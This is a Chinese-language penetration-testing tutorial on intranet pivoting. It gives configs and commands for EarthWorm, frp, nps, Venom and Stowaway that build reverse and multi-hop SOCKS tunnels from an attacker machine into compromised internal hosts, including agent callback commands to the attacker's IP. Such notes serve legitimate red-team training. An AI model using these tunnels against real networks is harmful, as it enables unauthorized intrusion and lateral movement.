



# 渗透测试 & 内网穿透

## 代理

- 正向代理：服务器不出网。例如，当攻击者拿下一台`web`服务器后，在上面执行`ping baidu.com`操作时是无法`ping`通的，即服务器不出网，此时需要使用正向代理工具，主动去连接服务器。

- 反向代理：服务器出网。例如，当攻击者拿下一台`web`服务器后，在上面执行`ping baidu.com`操作时是能`ping`通的，即服务器能出网，此时可以使用反向代理工具。让被受害服务器主动连接攻击者。


## 拓扑图


## ew

### 介绍

​	`EarthWorm`是一款用于开启`SOCKS v5`代理服务的工具，基于标准`C`开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。专有主页：[EarthWorm](http://rootkiter.com/EarthWorm/)。

- 普通网络环境


- 二重网络环境


- 参数说明


### 实现方式

#### 正向SOCKS v5服务器

```bash
ew_for_Win.exe -s ssocksd -l 8080
```


#### 反弹SOCKS v5服务器

```bash
# 具有公网IP的主机上执行如下命令
./ew_for_MacOSX64 -s rcsocks -l 1080 -e 8888

# 目标不出网主机上启动SOCKS v5服务并反弹到公网主机的8888端口
ew_for_Win.exe -s rssocks -d 192.168.168.71 -e 8080
```


#### 多级级联

```bash
# 具有公网IP的主机上监听1080端口并转发给本地8888端口
./ew_for_MacOSX64 -s rcsocks -l 1080 -e 8888 -t 1000000

# 目标不出网主机A将具有公网IP的主机的8888端口和内网主机B的9999端口连接起来
ew_for_Win.exe -s lcx_slave -d 192.168.168.71 -e 8888 -f 10.37.129.6 -g 9999 -t 1000000

# 内网主机B开启SOCKS v5服务并反弹到内网主机B的9999端口
ew_for_Win.exe -s ssocksd -l 9999 -t 1000000
```


## frp

### 介绍

​	`frp`是一个专注于内网穿透的高性能的反向代理应用，支持`TCP`、`UDP`、`HTTP`、`HTTPS`等多种协议。可以将内网服务以安全、便捷的方式通过具有公网`IP`节点的中转暴露到公网。

- 项目地址：https://github.com/fatedier/frp

- 文件说明：`frps.ini`（服务端配置文件）、`frps`（服务端软件）、`frpc.ini`（客户端配置文件）、`frpc`（客户端软件）

#### 服务端

- `frps.ini`常用配置如下

```bash
# 服务端配置
[common]	# 必须设置
bind_addr = 服务器ip
bind_port = 7000	# 与frpc.ini的server_port一致
token = 20010310	# 与frps.ini的token一致, 核实身份

# 配置ssh服务
[ssh] # 非必须
listen_port = 6000	# 设定的ssh访问端口

# 配置http服务
[web]	# 非必须
type = http # 服务类型, 可以设为http, https
custom_domains = test1.a.com # 要映射的域名, 域名的A记录要解析到外网主机的IP

# frp管理后台端口
dashboard_port = 7500
# frp管理后台用户名和密码
dashboard_user = admin
dashboard_pwd = P@ssw0rd
enable_prometheus = true

# frp日志配置
log_file = /var/log/frps.log
log_level = info
log_max_days = 3
```

- `frps`启动

```bash
# 方式一
mkdir /etc/frp
cp frps.ini /etc/frp
cp frps /usr/bin
cp systemd/frps.service /usr/lib/systemd/system/
systemctl enable frps
systemctl start frps

# 方式二
./frps -c ./frps.ini
# 后台运行
nohup ./frps -c ./frps.ini &
```

- 防火墙端口放行

```bash
# 添加监听端口
firewall-cmd --permanent --add-port=7000/tcp
# 添加管理员后台端口
firewall-cmd --permanent --add-port=7500/tcp
firewall-cmd --reload
```

- 验证服务端是否启动成功，访问`http://ip:管理员后台端口`，输入管理员后台用户和密码查看连接状态

#### 客户端

- `frpc.ini`常用配置如下

```bash
# 客户端配置
[common]
server_addr = 127.0.0.1	# 远程frp服务器ip
server_port = 7000	# 远程frp服务器端口, 与frps.ini的bind_port一致
token = 20010310  # 远程frp服务器token, 与frps.ini的token一致

# 配置ssh服务
[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6000  # 自定义, 之后再ssh连接的时候要用

# 配置http服务
[http]
type = http
local_ip = 127.0.0.1
local_port = 8080	# 远程frp服务器本地端口号
remote_port = 9000	# 远程frp服务器的http服务端口号
subdomain = admin.com.cn	# 自定义配置的域名

# frp日志配置
log_file = /var/log/frpc.log
log_level = info
log_max_days = 3
```

- `frpc`启动

```bash
./frpc -c ./frpc.ini
# 后台运行
nohup ./frpc -c ./frpc.ini &
```

### 实现方式

#### 一级网络环境

- 服务端

```bash
[common]
bind_addr = 0.0.0.0
bind_port = 7000
```

- 客户端

```bash
[common]
server_addr = 192.168.168.71
server_port = 7000

[http_proxy]
type = tcp
remote_port = 8080
plugin = socks5
```


#### 多级网络环境

- 攻击机服务端

```bash
[common]
bind_port = 7001

dashboard_user = admin   
dashboard_pwd = password  
dashboard_port = 8000
```

- 边界服务器服务端

```bash
[common]
bind_addr = 10.37.129.5
bind_port = 7001
```

- 边界服务器客户端

```bash
[common]
tls_enable = true
server_addr = 192.168.50.167
server_port = 7001

[http_proxy]
type = tcp
remote_port = 8080
local_ip = 10.37.129.5
local_port = 18080
```

- `Win1`服务器服务端

```bash
[common]
bind_addr = 10.37.132.3
bind_port = 7001
```

- `Win1`服务器客户端

```bash
[common]
tls_enable = true
server_addr = 10.37.129.5
server_port = 7001

[http_proxy]
type = tcp
remote_port = 18080
local_ip = 10.37.132.3
local_port = 10809
```

- `Win2`服务器客户端

```bash
[common]
tls_enable = true
server_addr = 10.37.132.3
server_port = 7001

[ssh]
type = tcp
remote_port = 10809
plugin = socks5
```


## nps

### 介绍

​	`nps`是一款轻量级、高性能、功能强大的内网穿透代理服务器。目前支持`tcp`、`udp`流量转发，可支持任何`tcp`、`udp`上层协议（访问内网网站、本地支付接口调试、`ssh`访问、远程桌面，内网`dns`解析等等），此外还支持内网`http`代理、内网`socks5`代理、`p2p`等，并带有功能强大的`web`管理端。

### 实现方式

​	尝试后发现该工具做多层代理时不太方便，这里简单记录一下单层代理的实现方式。首先根据服务端系统版本选择对应的`nps`进行安装，接着便可以使用`nps`了，注意这里的`nps`安装完成后是在`etc`目录下的，同时在客户端也可以利用`nps install -server=xxx -vkey=xxx -type=xxx`来进行注册服务的方式启动，`Windows`中如果不是管理员则不能注册到系统服务中，此时直接启动`nps -server=xxx -vkey=xxx -type=xxx`。需要注意，如果需要更换命令内容需要先卸载`npc uninstall`，再重新注册。



​	进入页面后选择客户端，进行新增客户端操作，信息均可采用默认不填写。新增客户端后进行新增隧道操作，这里服务端的端口就是代理服务的端口。


​	客户端同样选择对应系统的版本，接着复制启动命令进行执行，启动命令位置：客户端->每一条信息最前面的`-`符号->复制客户端命令。


​	接着配置好`Proxifier`等工具即可。


## Venom

### 介绍

​	`Venom`是一款为渗透测试人员设计的使用`Go`开发的多级代理工具。`Venom`可将多个节点进行连接，然后以节点为跳板，构建多级代理。渗透测试人员可以使用`Venom`轻松地将网络流量代理到多层内网，并轻松地管理代理节点。

### 实现方式

#### 一级网络环境

- 在攻击机上执行以下命令

```bash
./admin_macos_x64 -lport 9999
```

- 在边界服务器上执行以下命令，此时攻击机上将会收到连接

```bash
agent.exe -rhost 192.168.168.71 -rport 9999
```

- 接着执行命令，将流量代理到`7777`端口

```bash
show	# 查看节点
goto 1	# 选择节点
socks 7777	# 设置代理
```


#### 多级网络环境

​	此时在上一层的基础上，在攻击机上让节点一进行监听，即在边界主机上等待`Win2`主机的连接：

```bash
listen 9998
```

​	在`Win2`主机上执行如下命令去连接边界主机：

```bash
agent.exe -rhost 10.32.129.5 -rport 9998
```

​	接着在攻击机查看利用`show`查看节点，可以发现多了一个节点，选择节点二，同样设置代理，将流量代理到攻击机的`7778`端口：

```bash
show
goto 2
socks 7778
```




## Stowaway

### 介绍

​	`Stowaway`是一个利用`go`语言编写、专为渗透测试工作者制作的多级代理工具。用户可使用此程序将外部流量通过多个节点代理至内网，突破内网访问限制，构造树状节点网络，并轻松实现管理功能

### 实现方式

#### 一级网络环境

​	在攻击机使用被动模式，监听端口`9999`，并对通信进行加密，密钥为`h3rmesk1t`，等待边界主机的连接：

```bash
./macos_admin -l 9090 -s h3rmesk1t
```

​	边界主机使用密钥`h3rmesk1t`进行连接，并设置重连间隔时间：

```bash
windows_x64_agent.exe -c 192.168.168.71:9090 -s h3rmesk1t -reconnect 8
```

​	此时攻击机与边界主机成功建立连接，选择需要使用的节点，进行代理设置：

```bash
help
detail
use 0
socks 7777 admin admin
```





#### 多级网络环境

​	保持上文一节网络环境不变，在原节点上开启监听，模式选择`1`，端口为`10000`，`Win2`主机主动连接边界主机的监听端口：

```bash
windows_x64_agent.exe -c 10.37.129.5:10000 -s h3rmesk1t -reconnect 8
```

​	此时攻击机会有一个新加入的节点，选择新节点，同样添加`socks5`代理：

```bash
back
detail
use 1
socks 7778 admin admin
```

​	接着利用`Proxifier`添加对应的代理服务器和代理规则（分别添加两个代理），即可访问第二层网络。


